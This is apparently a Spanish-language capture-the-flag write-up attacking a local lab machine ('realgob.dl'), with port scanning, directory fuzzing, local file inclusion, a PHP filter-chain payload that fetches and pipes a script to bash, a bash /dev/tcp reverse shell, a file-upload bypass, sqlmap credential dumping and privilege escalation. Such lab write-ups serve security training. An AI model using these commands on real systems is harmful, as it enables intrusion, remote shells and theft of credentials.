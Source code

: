 # Maquina Report

### 1.- Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### 2.- Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,3306 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### 3.- Fuzzing Web

agregaomos el realgob.dl al /etc/hosts

gobuster dir -t 200 -u http://realgob.dl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

![alt text](image-3.png)

### 4.- Vulnerabilidades

#### - LFI

wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://realgob.dl/about.php?FUZZ=../../../../../../../../../../../../../etc/passwd" --hh=4919

![alt text](image-2.png)

Intenté sacar el id_rsa, ver los logs y no se pudo, entonces utilicé la herramienta php_filter_chain_generator

a.- Creamos una reverse shell llamada rev con el siguiente contenido:

nano rev

bash -i >& /dev/tcp/172.17.0.1/443 0>&1 

b.- Iniciamos un servidor web con python en la carpeta donde creamos el rev

python3 -m http.server 80

![alt text](image-4.png)

c.- Nos ponemos en escucha con netcat por el puerto 443

nc -nlvp 443

d. En la carpeta php_filter_chain_generator, ejecutamos

python3 php_filter_chain_generator.py --chain '<?=`wget -O- 172.17.0.1/rev|bash`?>'

![alt text](image-5.png)

e.- Pegamos el wrapper  en la url de esta manera:

ejemplo:

http://realgob.dl/about.php?file=wrapper

![alt text](image-6.png)

f.- Tenemos acceso

#### - Bypass php - JPEG - cambiando el Content - Type
Iniciamos sesión en /admin.php, con las credenciales admin:admin123

luego de eso me sale una opción para subir un archivo, intercepto la petición con burpsuite y hago este artificio:

![alt text](image-11.png)

me dirijo a uploads:

![alt text](image-12.png)

coloco netcat en modo escucha, hago clic en revshell.php y listo tengo acceso, luego hago tratamiento de la tty:

![alt text](image-13.png)

#### - SQLi

Me registro con un usuario daniel y la contraseña 12345678, al momento de registrarme me manda a una página /realgob/edo_cuenta.php?id=68 , le doy en realizar pago y me manda al id=1, entonces me hace pensar que se trata de un SQLi

Tomamos la url = http://realgob.dl/edo_cuenta.php?id=1

y ejecutamos:

sqlmap -u http://realgob.dl/edo_cuenta.php?id=1 --dbs --batch

![alt text](image-14.png)

ver las tablas de la base de datos GOB_DB

sqlmap -u http://realgob.dl/noticias.php?id=1 -D GOB_BD --tables --batch

![alt text](image-15.png)

ver usuarios y contraseñas:

sqlmap -u http://realgob.dl/noticias.php?id=1 -D GOB_BD -T users -C username,password --dump --batch

![alt text](image-16.png)

### 5.- Escalar privilegios

ejecute el comando: find / -name '*.git' 2>/dev/null

![alt text](image-7.png)

![alt text](image-8.png)

siendo el usuario adm entramos en /home/adm y abrimos el .bashrc

![alt text](image-10.png)

lo crakeamos con cyberchef

![alt text](image-9.png)

